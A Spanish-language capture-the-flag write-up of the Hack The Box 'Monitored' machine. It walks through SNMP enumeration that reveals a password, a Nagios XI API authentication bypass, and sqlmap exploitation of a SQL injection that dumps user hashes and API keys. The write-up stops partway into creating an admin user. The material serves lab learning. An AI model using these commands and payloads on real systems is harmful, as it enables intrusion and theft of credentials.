# Resolución maquina monitored

**Autor:** PepeMaquina  
**Fecha:** 25 de octubre de 2025  
**Dificultad:** Medio  
**Sistema Operativo:** Linux  
**Tags:** API, Sqli, Nagios.

---

## Imagen de la Máquina

*Imagen: monitored.JPG*

## Reconocimiento Inicial

### Escaneo de Puertos
Comenzamos con un escaneo completo de nmap para identificar servicios expuestos:
~~~ bash
sudo nmap -p- --open -sS -vvv --min-rate 5000 -n -Pn 10.10.11.248 -oG newtworked
~~~
Luego queda realizar un escaneo detallado de puertos abiertos:
~~~ bash
sudo nmap -sCV -p22,80,389,443,5667 10.10.11.248 -oN targeted
~~~
### Enumeración de Servicios
~~~ 
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 61:e2:e7:b4:1b:5d:46:dc:3b:2f:91:38:e6:6d:c5:ff (RSA)
|   256 29:73:c5:a5:8d:aa:3f:60:a9:4a:a3:e5:9f:67:5c:93 (ECDSA)
|_  256 6d:7a:f9:eb:8e:45:c2:02:6a:d5:8d:4d:b3:a3:37:6f (ED25519)
80/tcp   open  http       Apache httpd 2.4.56
|_http-server-header: Apache/2.4.56 (Debian)
|_http-title: Did not follow redirect to https://nagios.monitored.htb/
389/tcp  open  ldap       OpenLDAP 2.2.X - 2.3.X
443/tcp  open  ssl/http   Apache httpd 2.4.56 ((Debian))
| ssl-cert: Subject: commonName=nagios.monitored.htb/organizationName=Monitored/stateOrProvinceName=Dorset/countryName=UK
| Not valid before: 2023-11-11T21:46:55
|_Not valid after:  2297-08-25T21:46:55
|_http-server-header: Apache/2.4.56 (Debian)
| tls-alpn: 
|_  http/1.1
|_http-title: Nagios XI
|_ssl-date: TLS randomness does not represent time
5667/tcp open  tcpwrapped
Service Info: Host: nagios.monitored.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
~~~
Se ven varios puertos, por ejemplo no es muy normal ver ldap, asi de primera se podria venia a la mente ldap injection si es que lo utilizara para la autenticacion en un login, tambien se ve que todo va por https, seguramente tendra un certificado autofirmado y tal vez ver subdominios o algo de información en el certificado (desde ya adelando que no hay nada, pero siempre es bueno rervisarlo).
Como siempre, tambien se enumeran servicios en UDP.
~~~bash
sudo nmap -p- --open -sU --min-rate 8000 -n -Pn 10.10.11.248 -oG newtworked_udp
[sudo] password for kali: 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-25 13:50 EDT
Warning: 10.10.11.248 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.11.248
Host is up (0.77s latency).
Not shown: 65435 open|filtered udp ports (no-response), 98 closed udp ports (port-unreach)
PORT    STATE SERVICE
123/udp open  ntp
161/udp open  snmp
~~~
En esta se ve el servicio SNMP abierto, a lo que siempre se debe inspeccionar.

### Enumeración UDP servicio SNMP
Lo primero que casi siempre me gusta hacer, es enumerar todo lo snmp que pueda, de esta manera poder obtener algunas credenciales o talvez algo importante para poder iniciar la infiltración.
Lo primero que se hace es ver el tipo de community string que tiene.
~~~bash
onesixtyone -c /usr/share/wordlists/seclists/Discovery/SNMP/common-snmp-community-strings-onesixtyone.txt 10.10.11.248 -w 100
Scanning 1 hosts, 120 communities
10.10.11.248 [public] Linux monitored 5.10.0-28-amd64 #1 SMP Debian 5.10.209-2 (2024-01-31) x86_64
10.10.11.248 [public] Linux monitored 5.10.0-28-amd64 #1 SMP Debian 5.10.209-2 (2024-01-31) x86_64
~~~
Esta presenta una community string publica, asi que queda ver que procesos ejecuta en el servicio.
~~~bash
snmpbulkwalk -c public -v2c 10.10.11.248 .
iso.3.6.1.2.1.1.1.0 = STRING: "Linux monitored 5.10.0-28-amd64 #1 SMP Debian 5.10.209-2 (2024-01-31) x86_64"
iso.3.6.1.2.1.1.2.0 = OID: iso.3.6.1.4.1.8072.3.2.10
iso.3.6.1.2.1.1.3.0 = Timeticks: (115677) 0:19:16.77
iso.3.6.1.2.1.1.4.0 = STRING: "Me <root@monitored.htb>"
iso.3.6.1.2.1.1.5.0 = STRING: "monitored"
iso.3.6.1.2.1.1.6.0 = STRING: "Sitting on the Dock of the Bay"
iso.3.6.1.2.1.1.7.0 = INTEGER: 72
iso.3.6.1.2.1.1.8.0 = Timeticks: (55) 0:00:00.
<SNIP>
iso.3.6.1.2.1.25.4.2.1.5.491 = ""
iso.3.6.1.2.1.25.4.2.1.5.510 = ""
iso.3.6.1.2.1.25.4.2.1.5.512 = STRING: "--config /etc/laurel/config.toml"
iso.3.6.1.2.1.25.4.2.1.5.541 = STRING: "-4 -v -i -pf /run/dhclient.eth0.pid -lf /var/lib/dhcp/dhclient.eth0.leases -I -df /var/lib/dhcp/dhclient6.eth0.leases eth0"
iso.3.6.1.2.1.25.4.2.1.5.553 = ""
iso.3.6.1.2.1.25.4.2.1.5.564 = STRING: "-f"
iso.3.6.1.2.1.25.4.2.1.5.567 = STRING: "--system --address=systemd: --nofork --nopidfile --systemd-activation --syslog-only"
iso.3.6.1.2.1.25.4.2.1.5.570 = STRING: "-n -iNONE"
iso.3.6.1.2.1.25.4.2.1.5.574 = ""
iso.3.6.1.2.1.25.4.2.1.5.575 = STRING: "-u -s -O /run/wpa_supplicant"
iso.3.6.1.2.1.25.4.2.1.5.581 = STRING: "-f"
iso.3.6.1.2.1.25.4.2.1.5.622 = STRING: "-c sleep 30; sudo -u svc /bin/bash -c /opt/scripts/check_host.sh svc XjH7VCehowpR1xZB "
iso.3.6.1.2.1.25.4.2.1.5.710 = ""
iso.3.6.1.2.1.25.4.2.1.5.711 = ""
iso.3.6.1.2.1.25.4.2.1.5.755 = STRING: "-f /usr/local/nagios/etc/pnp/npcd.cfg"
iso.3.6.1.2.1.25.4.2.1.5.761 = STRING: "-LOw -f -p /run/snmptrapd.pid"
iso.3.6.1.2.1.25.4.2.1.5.775 = STRING: "-LOw -u Debian-snmp -g Debian-snmp -I -smux mteTrigger mteTriggerConf -f -p /run/snmpd.pid"
iso.3.6.1.2.1.25.4.2.1.5.789 = STRING: "-o -p -- \\u --noclear tty1 linux"
iso.3.6.1.2.1.25.4.2.1.5.793 = STRING: "-p /var/run/ntpd.pid -g -u 108:116"
<SNIP>
~~~
La respuesta de bastante larga y siempre se debe ver todo con detalle, asi que revisando linea por linea, se encuentra un usuario svc y una contraseña "XjH7VCehowpR1xZB" que puede servirnos de algo o no, pero siempre se debe guardar.
### Enumeración de la página web
Primero, como se ve, todo va redirigido a "nagios.monitored.htb", por lo que se lo agrega en el "/etc/hosts".
Inspeccionando el contenido de la página se ve una aplicación ya definida que es "nagios", esto es un gestionador de la red. Presenta un inicio de sesión.
Al intentar entrar con credenciales por defecto, no da resultado alguno.



Pero recordando que tenemos un par de credenciales validas, se las prueba para ver si pueden ser validas.



Parece que estas credenciales son validas, solo que la cuenta fue deshabilitada por algun motivo.
Intente probar un ldap injection pero no dio resultado alguno, en este punto ya no sabia que mas podria hacer, asi que realice enumeración de directorios.
Normalmente no realizo enumeración de directorios a una aplicación ya predefinida, porque casi siempre sale un montón de datos pero que siempre son necesarios para su funcionamiento, pero no pierdo nada por probar.
~~~bash
feroxbuster -u https://nagios.monitored.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -d 0 -t 5 -o fuzz -k -x php 
                                                                                                                                                            
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.11.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ https://nagios.monitored.htb
 🚀  Threads               │ 5
 📖  Wordlist              │ /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.11.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 💾  Output File           │ fuzz
 💲  Extensions            │ [php]
 🏁  HTTP methods          │ [GET]
 🔓  Insecure              │ true
 🔃  Recursion Depth       │ INFINITE
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET        9l       31w      283c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
403      GET        9l       28w      286c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET       75l      208w     3245c https://nagios.monitored.htb/index.php
302      GET        1l        5w       27c https://nagios.monitored.htb/nagiosxi/ => https://nagios.monitored.htb/nagiosxi/login.php?redirect=/nagiosxi/index.php%3f&noauth=1
200      GET      272l     1974w    16128c https://nagios.monitored.htb/nagiosxi/includes/css/themes/modern.css
200      GET      177l      116w    17339c https://nagios.monitored.htb/nagiosxi/images/favicon-32x32.png
200      GET        6l     1474w   123729c https://nagios.monitored.htb/nagiosxi/includes/css/bootstrap.3.min.css
200      GET        2l     1294w    89500c https://nagios.monitored.htb/nagiosxi/includes/js/jquery/jquery-3.6.0.min.js
200      GET      118l      617w    37941c https://nagios.monitored.htb/nagiosxi/images/apple-touch-icon-precomposed.png
200      GET      196l      217w    27444c https://nagios.monitored.htb/nagiosxi/images/nagios_logo_white_transbg.png
200      GET     1186l     8534w    70367c https://nagios.monitored.htb/nagiosxi/includes/css/base.css
200      GET      132l      618w    32639c https://nagios.monitored.htb/nagiosxi/includes/js/core.js
200      GET        5l       12w     1073c https://nagios.monitored.htb/nagiosxi/images/favicon.ico
200      GET       40l      234w    14576c https://nagios.monitored.htb/nagiosxi/images/apple-touch-icon.png
200      GET       75l      208w     3245c https://nagios.monitored.htb/
301      GET        9l       28w      339c https://nagios.monitored.htb/nagiosxi/about => https://nagios.monitored.htb/nagiosxi/about/
200      GET      299l     1662w    19586c https://nagios.monitored.htb/nagiosxi/about/main.php
200      GET      309l     1404w    18504c https://nagios.monitored.htb/nagiosxi/about/index.php
301      GET        9l       28w      335c https://nagios.monitored.htb/javascript => https://nagios.monitored.htb/javascript/
[###>----------------] - 27m   108474/661766  2h      found:17      errors:6      
🚨 Caught ctrl+c 🚨 saving scan state to ferox-https_nagios_monitored_htb-1761419095.state ...
[###>----------------] - 27m   108478/661766  2h      found:17      errors:6      
[#>------------------] - 27m    18422/220548  12/s    https://nagios.monitored.htb/ 
[#>------------------] - 26m    18401/220548  12/s    https://nagios.monitored.htb/nagiosxi/about/ 
[#>------------------] - 25m    17334/220548  12/s    https://nagios.monitored.htb/javascript/
~~~
Como lo supuse, no pude encontrar nada util, asi que se busco en internet alguna vulnerabilidad que magicamente funcione, lo malo es que no tengo la version completa, solamente que es "Nagios XI ".

### Explotación con la API
En internet encontre varias fuentes, entre ellas una que habla sobre un bypass en "Nagios XI" siempre y cuando utilice un recurso "api" como directorio (https://www.exploit-db.com/exploits/51925), pero como pude ver, no cuento con ese recurso en mi enumeración, asi que volvi a enumerarlo pero con otra herramienta.
~~~bash
dirsearch -u https://nagios.monitored.htb/nagiosxi/     
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3                                                                                                                            
 (_||| _) (/_(_|| (_| )                                                                                                                                     
                                                                                                                                                            
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/kali/htb/monitored/content/reports/https_nagios.monitored.htb/_nagiosxi__25-10-25_15-03-40.txt

Target: https://nagios.monitored.htb/

[15:03:40] Starting: nagiosxi/                                                                                                                              
[15:03:50] 403 -  286B  - /nagiosxi/.ht_wsr.txt                             
[15:03:50] 403 -  286B  - /nagiosxi/.htaccess.bak1                          
[15:03:50] 403 -  286B  - /nagiosxi/.htaccess.orig                          
[15:03:50] 403 -  286B  - /nagiosxi/.htaccess.sample
[15:03:50] 403 -  286B  - /nagiosxi/.htaccess.save                          
[15:03:50] 403 -  286B  - /nagiosxi/.htaccess_extra                         
[15:03:50] 403 -  286B  - /nagiosxi/.htaccess_orig
[15:03:50] 403 -  286B  - /nagiosxi/.htaccess_sc
[15:03:50] 403 -  286B  - /nagiosxi/.htaccessBAK
[15:03:50] 403 -  286B  - /nagiosxi/.htaccessOLD
[15:03:50] 403 -  286B  - /nagiosxi/.htaccessOLD2
[15:03:50] 403 -  286B  - /nagiosxi/.html                                   
[15:03:50] 403 -  286B  - /nagiosxi/.htm
[15:03:50] 403 -  286B  - /nagiosxi/.htpasswd_test                          
[15:03:50] 403 -  286B  - /nagiosxi/.httr-oauth
[15:03:50] 403 -  286B  - /nagiosxi/.htpasswds
[15:03:53] 403 -  286B  - /nagiosxi/.php                                    
[15:04:01] 301 -  339B  - /nagiosxi/about  ->  https://nagios.monitored.htb/nagiosxi/about/
[15:04:02] 301 -  341B  - /nagiosxi/account  ->  https://nagios.monitored.htb/nagiosxi/account/
[15:04:02] 302 -   27B  - /nagiosxi/account/  ->  https://nagios.monitored.htb/nagiosxi/login.php?redirect=/nagiosxi/account/index.php%3f&noauth=1
[15:04:04] 301 -  339B  - /nagiosxi/admin  ->  https://nagios.monitored.htb/nagiosxi/admin/
[15:04:06] 302 -   27B  - /nagiosxi/admin/  ->  https://nagios.monitored.htb/nagiosxi/login.php?redirect=/nagiosxi/admin/index.php%3f&noauth=1
[15:04:06] 302 -   27B  - /nagiosxi/admin/index.php  ->  https://nagios.monitored.htb/nagiosxi/login.php?redirect=/nagiosxi/admin/index.php%3f&noauth=1
[15:04:19] 301 -  337B  - /nagiosxi/api  ->  https://nagios.monitored.htb/nagiosxi/api/
[15:04:19] 403 -  286B  - /nagiosxi/api/                                    
[15:04:19] 301 -  340B  - /nagiosxi/api/v1  ->  https://nagios.monitored.htb/nagiosxi/api/v1/
[15:04:19] 200 -   32B  - /nagiosxi/api/v1/swagger.json
[15:04:19] 200 -   32B  - /nagiosxi/api/v1/swagger.yaml                     
[15:04:19] 200 -   32B  - /nagiosxi/api/v1/
[15:04:22] 200 -  104B  - /nagiosxi/backend/                                
[15:04:29] 301 -  340B  - /nagiosxi/config  ->  https://nagios.monitored.htb/nagiosxi/config/
[15:04:29] 200 -    0B  - /nagiosxi/config.inc.php                          
[15:04:29] 302 -   27B  - /nagiosxi/config/  ->  https://nagios.monitored.htb/nagiosxi/login.php?redirect=/nagiosxi/config/index.php%3f&noauth=1
[15:04:33] 301 -  336B  - /nagiosxi/db  ->  https://nagios.monitored.htb/nagiosxi/db/
[15:04:33] 403 -  286B  - /nagiosxi/db/                                     
[15:04:43] 301 -  338B  - /nagiosxi/help  ->  https://nagios.monitored.htb/nagiosxi/help/
[15:04:43] 302 -   27B  - /nagiosxi/help/  ->  https://nagios.monitored.htb/nagiosxi/login.php?redirect=/nagiosxi/help/index.php%3f&noauth=1
[15:04:45] 301 -  340B  - /nagiosxi/images  ->  https://nagios.monitored.htb/nagiosxi/images/
[15:04:45] 403 -  286B  - /nagiosxi/images/
[15:04:45] 301 -  342B  - /nagiosxi/includes  ->  https://nagios.monitored.htb/nagiosxi/includes/
[15:04:45] 403 -  286B  - /nagiosxi/includes/
[15:04:46] 302 -   27B  - /nagiosxi/index.php  ->  https://nagios.monitored.htb/nagiosxi/login.php?redirect=/nagiosxi/index.php%3f&noauth=1
[15:04:46] 302 -   27B  - /nagiosxi/index.php/login/  ->  https://nagios.monitored.htb/nagiosxi/login.php?redirect=/nagiosxi/index.php/login/%3f&noauth=1
[15:04:47] 302 -    0B  - /nagiosxi/install.php  ->  https://nagios.monitored.htb/nagiosxi/
[15:04:47] 302 -    0B  - /nagiosxi/install.php?profile=default  ->  https://nagios.monitored.htb/nagiosxi/
[15:04:52] 200 -    6KB - /nagiosxi/login.php                               
[15:04:56] 301 -  340B  - /nagiosxi/mobile  ->  https://nagios.monitored.htb/nagiosxi/mobile/
[15:05:09] 301 -  341B  - /nagiosxi/reports  ->  https://nagios.monitored.htb/nagiosxi/reports/
[15:05:23] 301 -  339B  - /nagiosxi/tools  ->  https://nagios.monitored.htb/nagiosxi/tools/
[15:05:23] 302 -   27B  - /nagiosxi/tools/  ->  https://nagios.monitored.htb/nagiosxi/login.php?redirect=/nagiosxi/tools/index.php%3f&noauth=1
[15:05:24] 302 -    0B  - /nagiosxi/upgrade.php  ->  index.php              
[15:05:28] 301 -  339B  - /nagiosxi/views  ->  https://nagios.monitored.htb/nagiosxi/views/
~~~
Con esta herramienta si se pudo encontrar el directorio "api" en la página, aunque tambien se pueden ver otras que parecen interesantes como "db" y "backend", pero por el momento no se hará nada con ellas
**NOTA: Ultimamente feroxbuster no encuentra varias carpetas que son utiles, siento que falla bastante y me esta haciendo perder mucho tiempo**
Siguiendo los pasos de la vulnerabilidad, esta dice que existe una ruta "api/v1/authenticate" donde se puede autenticar a los usuarios, entonces interceptando esto con burpsuite.



Efectivamente, este lugar existe, pero dice que solo acepta metodos como POST, asi que con click derecho y presionando la opcion "change request method" se pasa por post.



Ahora pide que se agreguen un usuario y contraseña, asi que agregando las credenciales que tenemos.



Esto nos otorga un "auth_token", que segun explica la vulnerabilidad, esto se puede usar para autenticarnos a la pagina web, asi que probando esto se coloca la siguiente url.
~~~url
https://nagios.monitored.htb/login.php?token=8499d93ece3d0ff405f609ff1613e137170411fe
~~~
Y logrando obtener acceso a la pagina web con el usuario svc.
Ahora se puede ver una version especifica de nagio que es la 5.11.0, asi que se busca alguna vulnerabilidad en internet.

### Aprovechando el SLQ injection
Encontrando una vulnerabilidad que hace alusión a sql injectión en un parametro mas sanitizado como esta publicación (https://rootsecdev.medium.com/notes-from-the-field-exploiting-nagios-xi-sql-injection-cve-2023-40931-9d5dd6563f8c)
Asi que probando lo que dice, menciona que en una ruta "nagiosxi/admin/banner_message-ajaxhelper.php" tiene un parametro id mal sanitizado como "action=acknowledge_banner_message&id=*"



Efectivamente, esto parece ser una inyeccion sql basado en errores, se la podria hacer manualmente pero para ahorrar tiempo prefiero pasarlo a sqlmap (tambien porque no sabria como hacerla manualmente).
Resumiendo lo que hice, primero coloque la consulta para sacar la bdd.
~~~bash
sqlmap -u 'https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php' --cookie='nagiosxi=o5n5922s0tn7e2pkstsbqc7jgo' --data='action=acknowledge_banner_message&id=3' -p "id" --level 5 --risk 3 --dump
~~~
El proceso tarda bastante, asi que toca esperar un buen tiempo, con ello se saco la dbb, las tablas y algunos parametros importantes, por lo que directamente se enfoco en sacar datos importantes de la tabla xi_users.
~~~bashsqlmap -u 'https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php' --cookie='nagiosxi=o5n5922s0tn7e2pkstsbqc7jgo' --data='action=acknowledge_banner_message&id=3' -p "id" --level 5 --risk 3 --dump -D nagiosxi -T xi_users -C username,password,name,api_key
        ___
       __H__                                                                                                                                                
 ___ ___[.]_____ ___ ___  {1.9.4#stable}                                                                                                                    
|_ -| . [']     | .'| . |                                                                                                                                   
|___|_  [,]_|_|_|__,|  _|                                                                                                                                   
      |_|V...       |_|   https://sqlmap.org                                                                                                                

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 19:24:05 /2025-10-25/

[19:24:05] [INFO] resuming back-end DBMS 'mysql' 
[19:24:05] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (POST)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (original value)
    Payload: action=acknowledge_banner_message&id=(SELECT (CASE WHEN (1120=1120) THEN 3 ELSE (SELECT 3392 UNION SELECT 9122) END))

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: action=acknowledge_banner_message&id=3 OR (SELECT 2307 FROM(SELECT COUNT(*),CONCAT(0x7178767071,(SELECT (ELT(2307=2307,1))),0x71706a7871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: action=acknowledge_banner_message&id=3 AND (SELECT 3621 FROM (SELECT(SLEEP(5)))QGwC)
---
[19:24:06] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: Apache 2.4.56
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[19:24:06] [INFO] fetching entries of column(s) '`name`,api_key,password,username' for table 'xi_users' in database 'nagiosxi'
you provided a HTTP Cookie header value, while target URL provides its own cookies within HTTP Set-Cookie header which intersect with yours. Do you want to merge them in further requests? [Y/n] y
[19:24:09] [INFO] retrieved: 'Nagios Administrator'
[19:24:10] [INFO] retrieved: 'IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL'
[19:24:12] [INFO] retrieved: '$2a$10$825c1eec29c150b118fe7unSfxq80cf7tHwC0J0BG2qZiNzWRUx2C'
[19:24:12] [INFO] retrieved: 'nagiosadmin'
[19:24:13] [INFO] retrieved: 'svc'
[19:24:14] [INFO] retrieved: '2huuT2u2QIPqFuJHnkPEEuibGJaJIcHCFDpDb29qSFVlbdO4HJkjfg2VpDNE3PEK'
[19:24:16] [INFO] retrieved: '$2a$10$12edac88347093fcfd392Oun0w66aoRVCrKMPBydaUfgsgAOUHSbK'
[19:24:16] [INFO] retrieved: 'svc'
Database: nagiosxi
Table: xi_users
[2 entries]
+----------------------+-------------+--------------------------------------------------------------+------------------------------------------------------------------+
| name                 | username    | password                                                     | api_key                                                          |
+----------------------+-------------+--------------------------------------------------------------+------------------------------------------------------------------+
| Nagios Administrator | nagiosadmin | $2a$10$825c1eec29c150b118fe7unSfxq80cf7tHwC0J0BG2qZiNzWRUx2C | IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL |
| svc                  | svc         | $2a$10$12edac88347093fcfd392Oun0w66aoRVCrKMPBydaUfgsgAOUHSbK | 2huuT2u2QIPqFuJHnkPEEuibGJaJIcHCFDpDb29qSFVlbdO4HJkjfg2VpDNE3PEK |
+----------------------+-------------+--------------------------------------------------------------+------------------------------------------------------------------+

[19:24:16] [INFO] table 'nagiosxi.xi_users' dumped to CSV file '/home/kali/.local/share/sqlmap/output/nagios.monitored.htb/dump/nagiosxi/xi_users.csv'
[19:24:16] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/nagios.monitored.htb'
[19:24:16] [WARNING] your sqlmap version is outdated
~~~
Se dicha forma se puede ver que se tienen dos usuarios, uno que es svc y otro admin, al intentar descifrar sus contraseñas esto no es posible, asi que se busca en internet alguna otra forma de autenticarse. En el mismo exploit del principio (https://www.exploit-db.com/exploits/51925) dice que se puede utilizar la "api_key" para crear otro usuario pero con privilegios de admin, asi que se replica esto.

### Creación de usuario con permisos admin
Con burpsuite nos dirigimos a la ruta "nagiosxi/api/v1/system/user" agregando la apikey.



Viendo que se tienen dos usuarios, ahora para crear un usuario se hace una petición POST.

